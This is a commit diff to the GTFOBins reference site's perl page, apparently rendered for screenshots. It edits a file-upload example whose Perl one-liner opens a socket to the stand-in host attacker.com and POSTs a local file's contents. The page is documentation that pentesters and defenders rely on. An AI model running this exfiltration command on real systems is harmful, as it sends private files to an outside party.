

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/perl.md, in a window 1280 px wide and 900 px high, scrolled down 488 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Remove URL variable in upload

```diff
--- a/_gtfobins/perl.md
+++ b/_gtfobins/perl.md
@@ -11,9 +11,8 @@ functions:
       code: |
         export RHOST=attacker.com
         export RPORT=8080
-        export URL=/exploit.sh
-        export LFILE=output.txt
-        perl -MIO::Socket::INET -e '$s = new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"}, PeerPort=>$ENV{"RPORT"}, Proto=>"tcp") or die;open(my $file, "<", $ENV{"LFILE"}) or die;$content = join("", <$file>);close($file);$post_data = "d=" . $content;$headers = "POST " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: " . length($post_data) . "\r\nConnection: close\r\n\r\n";print $s $headers . $post_data;while (<$s>) { }close($s);'
+        export LFILE=file_to_send
+        perl -MIO::Socket::INET -e '$s = new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"}, PeerPort=>$ENV{"RPORT"}, Proto=>"tcp") or die;open(my $file, "<", $ENV{"LFILE"}) or die;$content = join("", <$file>);close($file);$post_data = "d=" . $content;$headers = "POST / HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: " . length($post_data) . "\r\nConnection: close\r\n\r\n";print $s $headers . $post_data;while (<$s>) { }close($s);'
   file-download:
     - description: Download a file via HTTP. For example, run `python3 -m http.server 8080` on the serving side.
       code: |
```
